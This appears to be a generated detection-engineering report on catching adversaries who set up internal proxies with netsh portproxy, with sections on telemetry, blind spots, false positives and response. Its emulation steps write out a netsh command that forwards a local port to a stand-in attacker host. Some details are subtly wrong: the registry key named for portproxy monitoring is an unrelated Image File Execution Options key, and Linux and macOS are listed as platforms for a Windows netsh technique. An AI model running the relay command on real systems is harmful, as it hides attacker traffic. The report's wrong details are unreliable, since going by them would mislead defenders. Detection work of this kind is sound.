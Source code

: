 # Alerting & Detection Strategy (ADS) Report: Detect Adversarial Attempts to Bypass Security Monitoring Using Internal Proxies

## Goal
The primary goal of this strategy is to detect adversarial attempts to bypass security monitoring using internal proxies, specifically by identifying and analyzing activities related to the use of tools like `netsh.exe` on Windows systems to set up reverse proxy services.

## Categorization
- **MITRE ATT&CK Mapping:** T1090.001 - Internal Proxy
- **Tactic / Kill Chain Phases:** Command and Control
- **Platforms:** Linux, macOS, Windows
- [MITRE ATT&CK Reference](https://attack.mitre.org/techniques/T1090/001)

## Strategy Abstract
This detection strategy focuses on identifying the creation and use of internal proxies within enterprise environments. The primary data sources for this detection include:
- **Windows Event Logs:** Monitoring for specific event IDs related to `netsh.exe` commands.
- **Network Traffic Analysis:** Detecting unusual patterns in network traffic that suggest proxy usage, such as unexpected connections from known internal IP addresses to external hosts.
- **Process Monitoring:** Identifying processes that are commonly associated with setting up proxies, like `netsh.exe`.

The strategy analyzes patterns indicative of adversaries using internal proxies to mask their command and control (C2) communications. Key indicators include:
- Creation of new proxy rules via `netsh.exe`.
- Unexpected network traffic originating from trusted internal IP addresses.
- Anomalies in process creation and execution patterns.

## Technical Context
Adversaries often use internal proxies to evade detection by security tools that monitor external communication channels. By setting up a reverse proxy within an enterprise network, they can hide their C2 traffic as legitimate outbound traffic. This technique is commonly executed using the `netsh.exe` command in Windows environments, which allows attackers to configure new port forwarding rules.

### Adversary Emulation Details
To emulate this technique:
1. **Using `netsh.exe`:** Execute commands like `netsh interface portproxy add v4tov4 listenport=8080 connectaddress=external-attacker.com connectport=80` to create a proxy rule.
2. **Network Traffic Simulation:** Initiate connections from an internal IP address using the configured proxy port.

## Blind Spots and Assumptions
- **Blind Spots:**
  - Encrypted traffic analysis may not reveal the presence of proxies if payloads are obfuscated.
  - Detection may be limited to environments where detailed logging is enabled.
  
- **Assumptions:**
  - Assumes that `netsh.exe` usage for proxy setup is an anomaly in most enterprise environments.
  - Relies on baseline behavior analytics to distinguish between normal and malicious use of internal resources.

## False Positives
Potential benign activities that might trigger false alerts include:
- Legitimate network administrators configuring proxies for testing or development purposes.
- Software applications that use `netsh.exe` as part of their configuration routines without malicious intent.
- Misconfigured network devices generating similar traffic patterns.

## Priority
**Severity: High**

Justification:
- Internal proxies can significantly undermine an organization's security posture by enabling adversaries to maintain persistent access and exfiltrate data undetected.
- The technique is a common evasion method used in sophisticated attacks, making its detection critical for timely response and mitigation.

## Validation (Adversary Emulation)
To validate this strategy in a controlled test environment:

### Connection Proxy
1. **Configure Internal Proxy:**
   - Open Command Prompt as Administrator.
   - Execute: `netsh interface portproxy add v4tov4 listenport=8080 connectaddress=external-attacker.com connectport=80`

2. **Simulate Traffic:**
   - Use a tool like `curl` or `wget` from an internal machine to make requests through the configured proxy.
   - Example command: `curl --proxy localhost:8080 http://example.com`

### Connection Proxy for macOS UI
1. **Using Proxychains:**
   - Install and configure `proxychains` on a macOS test environment.
   - Modify `/etc/proxychains.conf` to include the internal proxy settings.

2. **Test Connectivity:**
   - Run an application through `proxychains` to route traffic via the internal proxy.

### Portproxy Reg Key
1. **Registry Monitoring:**
   - Monitor registry keys associated with `netsh.exe` configurations, such as `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\netsh.exe`.

## Response
When an alert for this detection strategy fires:
1. **Immediate Isolation:** Quarantine the affected system to prevent further potential compromise.
2. **Investigate Traffic Patterns:** Analyze network traffic logs to identify unusual patterns or destinations.
3. **Review Process Logs:** Examine process creation and execution histories on the affected machine.
4. **Verify Legitimacy:** Confirm if the proxy setup is part of a legitimate administrative task.
5. **Remediation:** Remove unauthorized proxy configurations and restore system integrity.

## Additional Resources
- [Netsh.exe Documentation](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/netsh)
- [Port Forwarding via Netsh.EXE](https://docs.microsoft.com/en-us/previous-versions/orphan-topics/ws.10/cc753579(v=ws.10))
- [Proxychains Configuration Guide](https://proxychains.net/config.html)

This report provides a comprehensive overview of detecting and responding to internal proxy usage, aligning with the MITRE ATT&CK framework to enhance organizational security measures.